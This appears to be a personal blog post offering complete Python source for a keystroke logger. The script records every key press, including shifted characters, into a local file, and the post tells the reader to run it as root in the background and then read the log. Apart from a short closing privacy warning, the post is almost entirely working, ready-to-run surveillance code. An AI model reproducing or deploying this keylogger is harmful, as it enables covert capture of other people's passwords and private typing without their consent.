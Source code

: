 ```yaml
---
layout: post
title:  "Keylogger"
date:   2024-06-02 18:30:00 -0500
categories: tools
tags: writeup source-code python tools
---
```


## Overview
This project is a **keystroke logger** that captures and records the keys pressed on the keyboard, logging them into a file named **keystrokes.log**. It processes each key press event to handle specific actions, such as backspace, special characters, and modifier keys (Ctrl, Shift, Alt), and writes the corresponding character to a log file.

This project is useful for purposes such as creating simple keystroke logging applications, debugging, or testing keyboard input behavior. 

## Demo
![demo](./assets/img/keylogger/demo.gif)

## Source code
```bash
import keyboard

log_file = "keystrokes.log"
shift_special_chars = {
    '1': '!',
    '2': '@',
    '3': '#',
    '4': '$',
    '5': '%',
    '6': '^',
    '7': '&',
    '8': '*',
    '9': '(',
    '0': ')',
    '-': '_',
    '=': '+',
    '[': '{',
    ']': '}',
    '\\': '|',
    ';': ':',
    '\'': '"',
    ',': '<',
    '.': '>',
    '/': '?'
}

def on_key_press(event):
    if event.name == 'backspace':
        # Handle backspace by removing last character
        try:
            with open(log_file, 'r+') as f:
                content = f.read()
                if content:
                    f.seek(0) # To beginning of file
                    f.truncate()  # Clear file contents
                    f.write(content[:-1])  # Rewrite without last character
        except FileNotFoundError:
            pass

    elif event.name in ['ctrl', 'left ctrl', 'right ctrl', 'alt', 'shift'] or 'ctrl' in event.modifiers or 'alt' in event.modifiers:
        pass
    
    else:
        char = event.name
        
        if char == 'space':
            char = ' '
        elif 'shift' in event.modifiers:
            if len(char) == 1 and char.isalpha():
                char = char.upper()
            elif char in shift_special_chars:
                char = shift_special_chars[char]
        elif char == 'enter':
            char = '\n'
        elif char == 'tab':
            char = '\n /tab \n'

        with open(log_file, 'a') as f:
            f.write(char)

keyboard.on_press(on_key_press)
keyboard.wait()
```

## How to use
To run the script, using 
```bash
sudo python3 keylogger.py &
```

To view the log, using
```bash
cat keystrokes.log
```

## Warning
**Keystroke logging can be intrusive and potentially violate privacy**. So it should be used responsibly and ethically.
